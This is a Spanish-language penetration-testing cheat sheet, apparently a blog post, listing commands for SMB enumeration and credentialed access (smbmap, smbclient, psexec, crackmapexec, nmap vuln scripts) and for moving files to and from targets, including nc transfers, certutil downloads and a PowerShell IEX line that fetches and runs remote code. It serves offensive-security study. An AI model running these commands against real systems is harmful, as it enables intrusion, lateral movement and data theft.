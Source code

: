 ```yaml
---
layout: post
title: Enumeración CheetSheat
tags: [CheetSheat]
description: "Enumeración CheetSheat"
---
```


## Samba

### Iniciar samba

```
sudo service smbd start
```

### smbget

```
smbget -R smb://<share>/
```

### smbmap

```
smbmap -H <ip> -r /share/share2
smbmap -H <ip> --download /share/share2/file
smbmap -H <ip> -d <domain> -u <user> -p <password>
```

### smbclient

```
smbclient //<ip>/share -U <domain>\\<user>%<password>
smbclient -NL //<ip>
```

### psexec

```
psexec.py <domain>/<user>@<ip>
```

### CracMapExec

```
crackmapexec smb <ip>  -u <user> -p <password>
```

### Montura

```
mount -t cifs //<ip>/<share> <folder_attack> -o username=<user>,password=<password>,rw
umount <folder>
```

### Scripts nmap

```
nmap --script "vuln and safe" -p445 <ip>
nmap --script=smb-enum-shares,smb-enum-users -p445 <ip>
```

----

## Transferencia de archivos

### Linux

```
nc -lvp <port> > file (recibe el fichero)
nc <ip> < <file> <port> (envia el fichero)
```

```
wget <url> -O <output>
```

```
impacket-smbserver share $(pwd) -smb2support
```

```
python3 -m http.server <port>
python -m SimpleHTTPServer <port>
```

```
sudo python -m pyftpdlip -p 21 -w
```

### Windows

```
certutil.exe -f -urlcache -split <url>
```

```
powershell IEX(New-Object Net.WebClient).downloadString('<url>')"
```

